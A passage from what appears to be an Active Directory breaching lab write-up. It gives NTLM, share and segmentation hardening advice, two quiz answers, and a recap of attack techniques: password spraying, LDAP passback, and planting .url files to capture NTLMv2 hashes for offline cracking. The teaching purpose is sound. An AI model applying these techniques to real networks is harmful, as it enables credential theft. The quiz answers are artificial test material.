- Enforcing the principle of least privilege on share permissions. Users should only have write access to shares where they genuinely need it.
- Monitoring shares for suspicious file types such as `.url`, `.lnk`, `.scf`, and `desktop.ini` files should rarely appear on data shares and can be flagged by file integrity monitoring or endpoint detection rules.
- Auditing share access to detect anomalous patterns, such as a new file appearing followed by a burst of SMB authentication attempts to an external IP.

#### NTLM Hardening

The file-based coercion attack captured an NTLMv2 hash because the victim's machine automatically attempted NTLM authentication to our attacker-controlled listener. Hardening NTLM involves:

- Disabling NTLMv1 entirely and enforcing NTLMv2 as the minimum authentication level via Group Policy (`Network Security: LAN Manager authentication level` set to "Send NTLMv2 response only. Refuse LM & NTLM").
- Enforcing SMB signing on all domain machines to prevent relay attacks that intercept and forward NTLM authentication.
- Blocking outbound SMB traffic (TCP 445) at the network perimeter firewall. There is rarely a legitimate reason for internal workstations to initiate SMB connections to external IP addresses.
- Working toward NTLM deprecation where possible. Microsoft has begun the process of deprecating NTLM in favour of Kerberos, and organisations should plan their migration accordingly.

#### Network Segmentation and Access Control

Many of the techniques in this room were possible because services were accessible from parts of the network where they didn't need to be. General network-level mitigations include:

- Segmenting the network so that management interfaces (printer admin panels, Jenkins dashboards, Git servers) are only accessible from dedicated management VLANs.
- Restricting access to internal services that do not need to be broadly available. A Jenkins instance used by the development team should not be reachable from the general corporate network.
- Enforcing multi-factor authentication (MFA) on internet-facing services and critical internal services such as VPN portals, email, and remote access gateways. MFA significantly reduces the impact of a breached password as the credential alone is no longer sufficient to authenticate.

---------------------------------------------------------------------------

#### What Group Policy setting can be configured to enforce NTLMv2 and refuse older LM and NTLM responses?

Answer: `Network Security: LAN Manager authentication level`

#### What port should be used instead of port 389 to ensure LDAP traffic is encrypted?

Answer: `636`

---------------------------------------------------------------------------

### Task 8: Conclusion

#### Conclusion

Well done! You've gone from zero credentials to multiple valid domain accounts and you did it through several different avenues. That's the reality of AD breaching: it's rarely a single technique that gets you in. It's a combination of reconnaissance, opportunistic discovery, and creative coercion that opens the door.

Let's recap what we covered in this room:

- **OSINT and reconnaissance**: We gathered potential usernames from public sources and validated them against the domain using Kerbrute, exploiting Kerberos pre-authentication behaviour to confirm which accounts exist without triggering lockouts.
- **Credential discovery**: We hunted for secrets in commonly exposed services. Git repositories with credentials buried in commit history and Jenkins instances leaking sensitive data through build logs.
- **Password spraying**: We took a single password and sprayed it across our validated username list using NetExec, staying below the lockout threshold while identifying accounts with weak or default passwords.
- **LDAP passback**: We exploited a misconfigured network printer by redirecting its LDAP authentication to our listener, capturing the stored service account credentials in plaintext.
- **File-based coercion**: We planted a malicious `.url` file on a writable share, forcing a user's machine to send its NTLMv2 hash to our Responder listener. We then cracked the hash offline with Hashcat to recover the plaintext password.

Each of these techniques gave us a different way in, and in a real engagement, you would use whichever combination the environment presents to you.

#### What's Next?

This room covered the **breadth** of AD breaching. There will be deeper rooms in coming modules that will provide the **depth**, diving into techniques that we deliberately kept out of scope here:

- Null sessions, guest access, LDAP anonymous binds, and SNMP enumeration
- Advanced coercion techniques: PetitPotam, PrinterBug/SpoolSample, and DFSCoerce
- NTLMv1/v2 relay attacks forwarding captured authentication instead of cracking it
- LLMNR/NBT-NS poisoning for credential interception on the local network
- PXE boot abuse and MDT credential extraction
- A capstone challenge combining all breaching techniques into a single engagement

Before moving on, consider going back through the lab and trying the techniques again. Repetition builds the muscle memory that separates reading about an attack from executing it confidently on an engagement.

---------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Active Directory - Wikipedia](https://en.wikipedia.org/wiki/Active_Directory)
- [awk - Linux manual page](https://man7.org/linux/man-pages/man1/awk.1p.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [Domain Name System - Wikipedia](https://en.wikipedia.org/wiki/Domain_Name_System)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [Forced Authentication (T1187) - Mitre ATT&CK](https://attack.mitre.org/techniques/T1187/)
- [Git - Wikipedia](https://en.wikipedia.org/wiki/Git)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [Jenkins (software) - Wikipedia](https://en.wikipedia.org/wiki/Jenkins_(software))
- [Kerberos (protocol) - Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [Kerbrute - GitHub](https://github.com/ropnop/kerbrute)
- [Lightweight Directory Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nslookup - Linux manual page](https://linux.die.net/man/1/nslookup)
- [NTLM - Wikipedia](https://en.wikipedia.org/wiki/NTLM)
- [Open-source intelligence - Wikipedia](https://en.wikipedia.org/wiki/Open-source_intelligence)
- [OpenVPN - Wikipedia](https://en.wikipedia.org/wiki/Openvpn)
- [Responder - GitHub](https://github.com/lgandx/Responder)
- [Responder - Kali Tools](https://www.kali.org/tools/responder/)
- [Responder - Wiki](https://github.com/lgandx/Responder/wiki)
- [sed - Linux manual page](https://man7.org/linux/man-pages/man1/sed.1.html)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [tee - Linux manual page](https://man7.org/linux/man-pages/man1/tee.1.html)
- [Unsecured Credentials (T1552) - MITRE ATT&CK](https://attack.mitre.org/techniques/T1552/)
